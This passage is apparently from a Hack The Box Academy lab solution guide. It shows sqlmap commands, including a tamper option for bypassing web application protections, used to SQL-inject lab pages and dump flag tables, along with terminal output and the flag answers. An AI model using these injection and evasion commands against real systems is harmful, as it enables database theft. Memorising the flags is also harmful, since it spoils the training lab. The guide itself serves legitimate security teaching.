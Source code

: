 ```shell
sqlmap -u 'http://STMIP:STMPO/case10.php' --data="id=1" --random-agent --batch --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case10.php' --data="id=1" --random-agent --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb
Table: flag10
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{y37_4n07h3r_r4nd0m1z3} |
+----+----------------------------+

<SNIP>
```

Answer: `HTB{y37_4n07h3r_r4nd0m1z3}`

# Bypassing Web Application Protections

## Question 4

### "What's the contents of table flag11? (Case #11)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #10" to notice that they need to exploit the `GET` parameter `id`:

![[HTB Solutions/CBBH/z. images/4f0ad9bbb36056fd83a1ea73a1798139_MD5.jpg]]

Thus, the `sqlmap` command becomes:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case11.php?id=1' --tamper=between -T flag11 --batch --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case11.php?id=1' --tamper=between -T flag11 --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb
```